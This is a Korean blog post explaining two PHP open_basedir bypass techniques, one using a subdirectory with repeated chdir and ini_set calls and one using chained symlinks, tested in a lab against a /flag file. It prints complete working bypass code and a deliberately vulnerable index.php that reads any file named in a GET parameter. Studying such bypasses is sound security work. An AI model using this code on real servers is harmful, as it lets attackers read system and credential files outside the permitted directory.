 ```yaml
---
layout: post
title: "PHP Open_basedir bypass"
comments: true
description: "PHP Open_basedir bypass."
categories: PHP, bypass, open_basedir

---
```


## 시작하기에 앞서

오탈자, 혹은 잘못된 부분은 언제든 환영합니다 :)

## 왜 갑자기 open_basedir?

잠자기전 트위터를 보다가 굉장히 흥미로운 트윗을 보았습니다. Thanks to, [@Blaklis_](<https://twitter.com/Blaklis_>)

![image-20190405042856180](<http://shpik.kr/static/img/open_basedir_intro.png>)

> **Source :** https://twitter.com/Blaklis_/status/1111586655134203904

처음에는 단순히 라업을 적은듯 하였는데, 내용을 읽어보니 일단 제가 모르는 것이었습니다.  [[Go to link]](<http://91.121.31.50/phuck3.txt>)

요약을 하자면 open_basedir이 설정되어있을 경우, 이를 우회해 /(root)로 변경이 가능합니다.

이말은 즉,  open_basedir이 /var/www/html에 걸려있더라도 /etc/passwd와 같은 서버 설정파일을 읽을 수 있다는 것입니다. 

총 2가지 방법(subdirectory, symlink)을 통해 open_basedir을 우회하려고 합니다.

## open_basedir bypass

#### Initialize Setting

서버의 설정(php.ini)는 다음과 같습니다.

```ini
open_basedir = /var/www/html
```

index.php의 소스는 다음과 같습니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
echo file_get_contents($_GET['f']);
```

/flag를 읽을려고 하면 당연히 에러가 발생할 것입니다.

![Error](http://shpik.kr/static/img/open_basedir_00.png)

참고로 정상적인 경우 open_basedir을 /로 변경해도, open_basedir은 변경되지 않습니다. 고로 /flag를 읽을 수 없습니다.

![default open_basedir](http://shpik.kr/static/img/open_basedir_02.png)

이제 이를 우회하여 /flag파일을 읽어봅니다.

#### 1 - Using subdirectory

subdirectory를 이용하여 open_basedir을 /로 변경하는 방법입니다.

이를 위해서는 open_basedir안에 폴더가 존재해야합니다.

테스트를 위한 서버의 구조는 다음과 같습니다.

```
root@shpik:/var/www/html/shpik/04# ls -al
total 20
drwxr-xr-x 3 root root 4096 Apr  5 04:45 .
drwxr-xr-x 6 root root 4096 Apr  5 04:16 ..
-rw-r--r-- 1 root root  341 Apr  5 04:21 index.php
drwxr-xr-x 2 root root 4096 Apr  5 04:19 mashiro
-rw-r--r-- 1 root root  100 Apr  5 04:45 test.php
```

mashiro라는 폴더를 이용하여 /flag파일을 읽어봅시다.

코드는 다음과 같습니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
chdir('mashiro');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
echo file_get_contents($_GET['f']);
```

open_basedir을 우회하여 /flag파일이 정상적으로 읽힙니다.

![open_basedir bypass using subdirectory](http://shpik.kr/static/img/open_basedir_01.png)

#### 2 - Using symlink

/를 가르키는 symlink를 생성하여 open_basedir을 우회하는 방법입니다.

이는 ../를 이용해 parent directory로 이동하기 때문에 적당한 깊이의 폴더가 필요합니다.

```
root@shpik:/var/www/html/shpik/04/symlink# tree
.
├── a
│   └── b
│       └── c
│           └── d
│               └── e
│                   └── f
│                       └── g
│                           └── h
│                               └── j
│                                   └── j
│                                       └── k
└── index.php
```

이를 링크로 하나 만들어줍니다.

```php
symlink('/var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k','shiina');
```

그러면 아래와 같은 symlink가 생성됩니다.

```
shiina -> /var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k
```

위에서 생성한 symlink(shiina) 기준으로 하위로 내려가는 symlink(goto)를 하나 더 생성해줍니다.

그리고 ini_set을 통해 open_basedir을 재 설정해주는데, 방금 생성한 symlink(goto/)를 추가해줍니다.

마지막으로 symlink(shiina)는 unlink해줍니다. 

```php
symlink('shiina/../../../../../../','goto');
ini_set('open_basedir','/var/www/html:goto/');
unlink('shiina');
symlink('/var/www/html/','shiina');
```

그러면 goto라는 symlink는 /를 가르키게 되고 `file_get_contents('goto/flag');`를 하게 되면 open_basedir을 우외하여 파일을 읽을 수 있습니다. 아래는 풀 코드입니다.

```php
error_reporting(E_ALL);
ini_set('display_errors',1);
symlink('/var/www/html/shpik/04/symlink/a/b/c/d/e/f/g/h/j/j/k','shiina');
symlink('shiina/../../../../../../','goto');
ini_set('open_basedir','/var/www/html:goto/');
unlink('shiina');
symlink('/var/www/html/','shiina');
echo file_get_contents('./goto/flag');
highlight_file(__FILE__);
```

![open_basedir bypass using symlink](http://shpik.kr/static/img/open_basedir_03.png)